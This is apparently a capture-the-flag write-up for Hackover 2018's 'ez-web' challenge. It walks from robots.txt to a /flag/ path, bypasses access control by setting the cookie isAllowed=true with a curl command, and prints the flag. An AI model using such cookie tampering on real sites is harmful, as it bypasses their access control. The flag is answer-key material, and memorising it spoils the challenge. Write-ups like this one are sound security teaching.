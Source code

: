 ## ez-web
#### challenge
````
Easy web challenge in the slimmest possible design.... namely none.

http://ez-web.ctf.hackover.de:8080

````
### idea
http://ez-web.ctf.hackover.de:8080/robots.txt
```
User-agent: * Disallow: /flag/
```

http://ez-web.ctf.hackover.de:8080/flag/
```
flag.txt
```

http://ez-web.ctf.hackover.de:8080/flag/flag.txt
```
You do not have permission to enter this Area. A mail has been sent to our Admins.
You shall be arrested shortly.
```
The webserver uses one cookie ```isAllowed=false```. Changing this to ```true``` produces:
```
hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}
```

### script
```shell
curl http://ez-web.ctf.hackover.de:8080/flag/flag.txt --cookie "isAllowed=true"
```

### flag
hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}

[more write-ups](../../)
